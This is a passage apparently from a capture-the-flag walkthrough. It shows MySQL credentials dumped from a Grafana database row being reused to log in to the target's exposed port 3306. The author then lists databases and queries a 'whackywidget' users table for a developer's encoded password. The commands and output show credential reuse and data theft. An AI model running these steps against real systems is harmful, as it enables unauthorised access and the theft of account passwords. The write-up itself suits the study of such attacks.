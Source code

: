 ```sql
2|1|1|mysql|mysql.yaml|proxy||REDACTED|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-11-11 13:06:10|0|{}|1|uKewFgM4z
```

Port 3306 was open, so I tried connecting to it.

```bash
$ mysql -h target -ugrafana -pREDACTED
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 23
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

It worked, so I looked around. There was a suspicious `whackywidget` database. 

```sql
MySQL [(none)]> Show Databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.059 sec)

MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MySQL [whackywidget]> Show Tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.089 sec)

MySQL [whackywidget]> Select * From users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | SOME_BASE64                              |
+-----------+------------------------------------------+
1 row in set (0.198 sec)
```
